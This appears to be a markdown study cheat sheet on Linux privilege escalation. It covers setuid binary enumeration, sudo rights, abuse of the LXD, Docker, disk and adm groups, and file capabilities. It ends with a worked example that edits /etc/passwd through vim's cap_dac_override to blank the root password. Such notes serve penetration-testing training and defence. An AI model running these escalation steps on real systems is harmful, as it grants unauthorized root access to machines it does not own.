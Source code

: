 -  [Special Permissions](#special-permissions)
-  [Sudo Rights Abuse](#sudo-rights-abuse)
-  [Privileged Groups](#privileged-groups)
-  [Capabilities](#capabilities)
---
### Special Permissions
- [setuid & setgid](https://linuxconfig.org/how-to-use-special-permissions-the-setuid-setgid-and-sticky-bits)
- [How to use setuid, setgid and sticky bits](https://linuxconfig.org/how-to-use-special-permissions-the-setuid-setgid-and-sticky-bits)
- It's possible to reverse engineer the program with the special bit set, identify a vulnerability, and exploit this to escalate our privileges.
	``` bash
	# Find binaries with setuid set
	find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
	# Find binaries with setgid set
	find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
	```
---
### Sudo Rights Abuse
- Sudo privileges can be granted to an account, permitting the account to run certain commands in the context of the root (or another account) without having to change users or grant excessive privileges.
``` bash
sudo -l
```
---
### Privileged Groups
- LXC & [LXD](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04)
	- LXD is similar to Docker and is Ubuntu's container manager.
	- By default, all users are added to the LXD group.
	- Members of this group can escalate privileges by creating an LXD container, make it privileged, then access the host file system at `/mnt/root`.
	``` bash
	# Unzip the Alpine image.
	unzip alpine.zip
	
	# Start the LXD initialization process.
	# https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04
	lxd init
	
	# Import the local image.
	lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
	
	# Start a privileged container
	lxc init alpine r00t -c security.privileged=true
	
	# Mount the host file system.
	lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
	
	# Spawn a shell inside the container instance.
	lxc start r00t
	lxc exec r00t /bin/sh
	```
- Docker
	- Create a new Docker instance with the /root directory on the host file system mounted as a volume.
		``` bash
		docker run -v /root:/mnt -it ubuntu
		```
- Disk
	- Disk group have full access to any devices contained within `/dev`, such as `/dev/sda1` (the main device used by the system).
	- An attacker with these privileges can use `debugfs` to access the entire file system with root level privileges.
- adm
	- Members of the adm group are able to read all logs stored in `/var/log`.
	- Does not directly grant root access, but leveraged to enumerate user actions, sensitive data in log files and running cron jobs.
---
### Capabilities
Capabilities are a security feature that allows specific privileges to be granted to processes.

| **Capability**         | **Description**                                                                      |
| ---------------------- | ------------------------------------------------------------------------------------ |
| `cap_sys_admin`        | Allows to perform actions with administrative privileges.                            |
| `cap_setuid`           | Allows a process to set its effective user ID.                                       |
| `cap_setgid`           | Allows to set its effective group ID.                                                |
| `cap_dac_override`     | Allows bypassing of file read, write, and execute permission checks.                 |
| `cap_sys_chroot`       | Allows to change the root directory for the current process.                         |
| `cap_sys_ptrace`       | Allows to attach to and debug other processes.                                       |
| `cap_sys_nice`         | Allows to raise or lower the priority of processes.                                  |
| `cap_sys_time`         | Allows to modify the system clock, potentially allowing it to manipulate timestamps. |
| `cap_sys_resource`     | Allows to modify system resource limits.                                             |
| `cap_sys_module`       | Allows to load and unload kernel modules.                                            |
| `cap_net_bind_service` | Allows to bind to network ports.                                                     |

| Value | Privileges Granted                     | Inheritance | Usage Example                                        |
| ----- | -------------------------------------- | ----------- | ---------------------------------------------------- |
| `=`   | Clears or explicitly sets capabilities | None        | `setcap = /path/to/executable`                       |
| `+ep` | Effective and Permitted                | No          | `setcap cap_net_bind_service+ep /path/to/executable` |
| `+ei` | Effective and Inheritable              | Yes         | `setcap cap_net_bind_service+ei /path/to/executable` |
| `+p`  | Permitted only                         | No          | `setcap cap_net_bind_service+p /path/to/executable`  |
- Set and View Capabilities
	``` bash
	# To set a capability
	sudo setcap cap_net_bind_service=+ep /usr/bin/vim.basic
	# To see the capability on the executable
	getcap /usr/bin/vim.basic
	```
- Enumerating and Exploiting Capabilities
	``` bash
	$ find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
	/usr/bin/vim.basic cap_dac_override=eip
	
	$ cat /etc/passwd | head -n1
	root:x:0:0:root:/root:/bin/bash
	
	# Use the cap_dac_override capability of the /usr/bin/vim binary to modify a system file:
	/usr/bin/vim.basic /etc/passwd
	# We also can make these changes in a non-interactive mode:
	$ echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
	
	$ cat /etc/passwd | head -n1
	root::0:0:root:/root:/bin/bash
	# Without the {x}, use the command su to log in as root without being asked for the password.
	```
---
